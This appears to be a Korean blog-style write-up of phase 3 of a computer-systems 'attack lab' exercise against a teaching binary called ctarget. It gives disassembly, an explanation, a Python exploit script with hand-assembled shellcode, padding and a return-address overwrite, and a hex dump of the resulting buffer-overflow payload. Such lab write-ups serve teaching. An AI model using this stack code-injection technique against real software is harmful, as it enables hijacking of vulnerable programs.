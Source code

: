 ```assembly
   0x0000000000401826 <+80>:    mov    edi,0x3
   0x000000000040182b <+85>:    call   0x401b9b <fail>
   0x0000000000401830 <+90>:    mov    edi,0x0
   0x0000000000401835 <+95>:    call   0x400df0 <exit@plt>
End of assembler dump.
```

`hexmatch`를 호출하는 것을 보아, `cookie`값을 string으로 나타낸 결과가 맞는지 확인한다. 따라서, 필요한 요소는 다음과 같다.

* 저장할 `cookie`의 위치
* `cookie`의 위치를 옮길 code
* `touch_3`으로 뛸 code

이 3개를 조합하여서 Exploit을 수행한다. `touch_2`를 호출하던 방식과 마찬가지로, buffer에 exploit code를 작성하고 0x18byte의 padding을 댄다.

그 이후 8byte에 Exploit code의 주소를 삽입하고, 마지막 8byte에 `cookie`의 값을 덮어 쓴 후 이 위치의 offset을 계산하여 buffer에 작성할 exploit code에 반영한다.



최종적으로 다음과 같은 형태로 Exploit script를 작성하여 exploit code를 만들고, `touch_3`을 실행할 수 있다.

```py
def phase_3():
    TOUCH_3_ADDR = 0x4017d6
    
    """
    Ex = asm(
        rf'''
        mov rdi, {GETBUF_RSP_ADDR + GETBUF_STACK_OFFSET + WORD_SIZE}
        push {TOUCH_3_ADDR}
        ret
        ''',
        arch='amd64',
        os='linux'
    )
    """

    Ex = b"\x48\xC7\xC7\x68\x11\x64\x55\x68\xD6\x17\x40\x00\xC3"
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
    Ex += p64(GETBUF_RSP_ADDR)
    Ex += cookie_to_hex(COOKIE)

    print(byte2hex(Ex))

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./ctarget")
```

전달되는 data의 hexadecimal value는 다음과 같다.

```text
48c7c76811645568	// Exploit code with 0x18 byte padding
d6174000c3414141	// -> mov rdi, (GETBUF_RSP_ADDR + GETBUF_STACK_OFFSET + WORD_SIZE); push TOUCH_3_ADDR; ret;
4141414141414141	//
4811645500000000	// Return Address: Address of input buffer (0x55641148)
3665623933336332	// Desired string (Cookie value): 0x3665623933336332 "6eb933c2"
```
